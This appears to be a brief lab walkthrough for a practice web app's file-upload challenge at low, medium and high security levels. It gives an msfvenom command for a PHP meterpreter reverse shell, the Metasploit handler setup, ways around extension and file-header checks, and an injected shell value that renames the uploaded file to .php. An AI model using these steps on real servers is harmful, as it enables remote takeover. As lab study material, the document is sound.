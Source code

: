 # LOW
Upload a reverse shell php file, navigate to the file and it will exectue.

`msfvenom -p php/meterpreter/reverse_tcp lhost=1.2.3.4 lport=9999 -f raw`

```
msf > use multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.104
msf exploit(handler) > set lport 3333
msf exploit(handler) > run
meterpreter > sysinfo
```

# MED
Add .jpeg to the reverse shell script filename.  Intercept the upload, change filename to .php.


# HIGH
Add a header to the .jpeg such as GIF98.  Use the command_injection.md to rename the file after upload.

`;mv /path/to/reverse.jpeg /path/to/reverse.php`
